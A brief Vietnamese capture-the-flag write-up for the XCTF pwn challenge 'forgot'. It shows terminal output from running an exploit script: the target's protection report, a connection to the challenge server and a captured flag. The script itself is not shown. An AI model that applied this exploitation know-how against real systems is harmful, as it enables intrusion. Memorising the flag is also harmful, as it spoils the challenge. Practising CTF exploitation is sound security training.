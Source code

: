 # XCTF - PWN Challenge - forgot

>Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```bash
l1j9m4 in ~/0_PWNable_/ADworld_XCTF/Challenge/forgot λ python2 exploit.py
[*] '/home/l1j9m4/0_PWNable_/ADworld_XCTF/Challenge/forgot/forgot_'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/l1j9m4/0_PWNable_/ADworld_XCTF/Challenge/forgot/forgot_': pid 7639
[+] Opening connection to 111.200.241.244 on port 59848: Done
[*] Switching to interactive mode
cyberpeace{bbda0bb3993707d78a65e677f024f1b4}
[*] Got EOF while reading in interactive
$  
```
